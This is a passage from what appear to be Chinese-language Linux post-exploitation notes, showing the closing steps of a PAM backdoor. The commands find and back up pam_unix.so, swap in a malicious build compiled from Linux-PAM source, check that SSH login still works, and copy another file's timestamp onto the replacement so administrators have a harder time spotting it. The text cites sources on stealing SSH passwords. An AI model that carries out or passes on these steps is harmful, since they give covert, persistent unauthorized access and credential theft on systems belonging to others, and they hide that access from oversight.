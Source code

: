 ```bash
find / -name "pam_unix.so"
```

然后替换，注意先备份，万一恶意的so文件不可用就GG了。

```bash
cp /usr/lib64/security/pam_unix.so /tmp/pam_unix.so.bak
cp /root/Linux-PAM-1.1.8/modules/pam_unix/.libs/pam_unix.so /usr/lib64/security/pam_unix.so
```

**此时切记不能断开ssh，再开一个终端ssh链接一下试试。**

成功登录，后门OK了，修改下pam_unix.so的时间戳，增加系统管理员查找难度

在`/usr/lib64/security/`下

```bash
touch pam_unix.so -r pam_umask.so
```

**整理自：**

[Linux-后渗透笔记-PAM后门](https://gorgias.me/2018/03/25/Linux-%E5%90%8E%E6%B8%97%E9%80%8F%E7%AC%94%E8%AE%B0-PAM%E5%90%8E%E9%97%A8/)
[Linux PAM后门：窃取ssh密码及自定义密码登录](https://mp.weixin.qq.com/s/M8chPphMprAK56-ScTQ-Qg)